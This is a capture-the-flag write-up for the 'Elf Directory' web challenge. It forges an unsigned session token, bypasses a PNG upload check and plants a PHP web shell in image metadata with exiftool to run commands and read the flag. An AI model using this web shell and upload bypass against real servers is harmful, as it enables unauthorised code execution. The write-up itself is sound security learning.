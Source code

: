 # Cyber Santa – Elf Directory

- **Category:** Web
- **Points:** 300
- **Difficulty:** ★☆☆☆

## Disclaimer: I did not solve this challenge during the competition.

## Challenge

A website with a simple register/login as well as profile page. No source code was given.

On logging in, we can see that there is supposed to be an `upload` function but it is not visible at the moment and will probably only be visible if we manage to privilege escalate to admin

## Solution

- JWT Token was Base 64 Encoded to `eyJ1c2VybmFtZSI6ImEiLCJhcHByb3ZlZCI6ZmFsc2V9`
  - Decoded Base64 was `{"username":"a","approved":false}`
  - Changing the approved to `true` showed the `upload` button that could change the profile picture
- The upload function only allowed `.png` files to be uploaded.
- On upload, profile photo is changed and a new file path of `/uploads/${5 random hex characters}_filename.png` is created on the server
- Only `.png` files are recognized. Even `.jpg` files that are renamed to `.png` don't work but the `.png` files renamed to other extensions work
- It seems that the file is actually scanned to be a `.png` file. Adding the 8 magic bytes of `.png` was insufficient, but copying around 20+ bytes of a `.png` file seems to bypass this scan
- I couldn't get the reverse shell to work
- I used `exiftool` to embed a `php` script in the comment

using this command

```
exiftool 1.png -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>'
```

and was thus able to achieve RCE and get the flag using the following URL.

```
http://178.62.5.61:31865/uploads/8817b_1.png.php?cmd=cat%20/flag*
```

```
HTB{br4k3_au7hs_g3t_5h3lls}
```

## Thoughts

- This was a quite the learning experience
- Learning how to fool a file checker, tried using `ngrok` and `nc` to listen and trying to embed reverse-shells
- Using the meta data of an image to achieve RCE
